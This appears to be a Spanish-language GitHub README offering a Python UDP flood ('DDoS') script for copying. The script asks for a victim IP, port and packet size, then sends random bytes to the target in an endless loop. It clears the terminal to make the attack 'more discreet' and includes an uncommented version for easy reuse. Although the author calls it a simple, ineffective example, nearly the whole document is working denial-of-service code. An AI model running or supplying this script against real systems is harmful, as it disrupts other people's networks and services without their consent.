 # DDoS_IP-Alejandro-Doral
Copiar este codigo:

import random
import socket
import os
#AL FINAL DEL SCRIPT TENEIS EL CODIGO PARA COPIARLO SI NO QUEREIS COMENTARIOS
#Aqui he importado las herramientas necesarias, random es para aleatorizar los bytes a enviar
#socket es para poder crear un socket para conexion UDP
#y os es para poder averiguar el sistema operativo de nuestro usuario y limpiar su terminal

#aqui solo estoy poniendo mi marca de autor
alex=("""

    ########           ####             ###########       ####   ####
   ##########          ####             ###                ########
  ####    ####         ####             ##########          #######
 ##############        ####             ##########         ##########
####        ####       ############     ###               #####  #####       
###          ####      ############     ###########      #####    #####           
""")

# Limpiar la terminal para que el ataque sea mas discreto
os.system("cls" if os.name == "nt" else "clear")

# Crear un socket UDP para poder establecer una conexion
connect = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

#Solicitar al usuario la ip victima
print("Ingresa la IP de la víctima por favor")
ip = input("IP>")

# Solicitar al usuario la cantidad de bytes para el ataque
size_attack = int(input("Por favor ingresa un número de bytes que deseas enviar a la víctima: "))

#Solicitar al usuario el puerto victima
print("Introduce el puerto de la víctima por favor")
port = int(input("PUERTO>"))

#Añado algunas lineas inecesarias xd
print("Preparando el ataque...")
print("Preparando el ataque...")
print("Preparando el ataque...")
print("Preparando el ataque...")
print("Preparando el ataque...")


#La parte interesante del programa donde se va a lanzar el ataque
while True:
    try:
        connect.sendto(bytes(random.randint(0, 255) for _ in range(size_attack)), (ip, port))
        print("Ataque enviado correctamente")
        print(alex)
        print(alex)
        print(alex)
    except KeyboardInterrupt:
        print("Cancelado por el usuario")
        break
#Estamos creando un bucle para atacar al puerto de la victima usando la variable connect y el metodo send to
#aleatorizando los bytes en el rango del ataque que especificamos
#Si el usuario ejecuta CTRL + C el ataque se detendrá


#Y eso es todo, este es un ejemplo sencillo 
#de como hacer un ataque DoS al puerto de una ip de una misma ip
#Aunque no es nada efectivo, no espereis que haga algo esto, es un ataque solo de ejemplo



#espero que os sirva aqui os dejo todo el codigo sin comentarios por si quereis copiarlo sin mas:

"""
import random
import socket
import os
os.system("cls" if os.name == "nt" else "clear")
connect = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
print("Ingresa la IP de la víctima por favor")
ip = input("IP>")
size_attack = int(input("Por favor ingresa un número de bytes que deseas enviar a la víctima: "))
print("Introduce el puerto de la víctima por favor")
port = int(input("PUERTO>"))
print("Preparando el ataque...")
while True:
    try:
        connect.sendto(bytes(random.randint(0, 255) for _ in range(size_attack)), (ip, port))
        print("Ataque enviado correctamente")
        print(alex)
    except KeyboardInterrupt:
        print("Cancelado por el usuario")
        break
"""

#chaoo
